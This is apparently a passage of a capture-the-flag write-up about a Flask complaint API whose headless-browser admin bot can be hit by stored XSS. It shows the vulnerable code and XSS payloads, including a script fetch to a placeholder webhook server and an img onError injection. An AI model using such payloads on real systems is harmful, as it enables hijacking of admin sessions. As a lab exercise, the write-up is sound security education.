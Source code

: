 ```python
@app.route("/api/complaint", methods=["POST"])
@csrf_protection
def submit_complaint():
    description = request.json.get("description", None)
    image_data = request.json.get("image_data", None)
    prediction = request.json.get("prediction", None)
    if not description or not image_data or prediction == None:
        return message("Parameters 'description', 'image_data' and 'prediction' requred"), 400
    
    complaints.add_complaint(description, image_data, prediction)

    Thread(target=complaints.check_complaints, args=(ALIEN_USERNAME, ALIENT_PASSWORD,)).start()

    return jsonify(), 204
```

So it creates a new thread that will check the complaint, let's look at the code there:

```python
def check_complaints(username, password):
    options = Options()
    options.add_argument('--headless')
    options.add_argument('--no-sandbox')
    browser = webdriver.Chrome(options=options)

    browser.get("http://127.0.0.1:1337/dashboard")

    browser.find_element(By.NAME, "username").send_keys(username)
    browser.find_element(By.NAME, "password").send_keys(password)
    browser.find_element(By.CLASS_NAME, "button-container").click()

    time.sleep(10)

    browser.quit()
```

Here we can see that a bot will open the dashboard, log into the server using the right credentials and then wait 10 seconds.
The idea here could be to somehow abuse the XSS vulnerability on the **dashboard** to steal the credentials (or the cookie) stored in the server to obtain access to the dashboard.
This is unfortunately impossile since the cookie is set to **HttpOnly**, thus making it impossible to read through scripts, so we should find another way.
Moreover, there is another slight complication to the XSS.
If we try to send a complaint having the prediction changed to **"<script> fetch('http://<webhook.server>').then(response => alert("get_pwnd") </script>"** you can easily see that you won't get any ping to your webhook server.
If you also try to run locally the web application (after changing the entrypoint to set the password to, for example, 1234, and open the dashboard after having sent said complaint, you can see that the script is there but is not executed!

To be able to run javascript code a possibility is to exploit the **onError** attribute of the html object **img**.
Sending a complaint to the web app running locally that looks like this: **"<img src=\"pwn\" onError=\"alert('Executed');\">"**
after opening the dashboard and loading in, you obtain your alert!
Good, now we know that it is possible to exploit an XSS vulnerability on the bot, that is logged to the server as an admin.
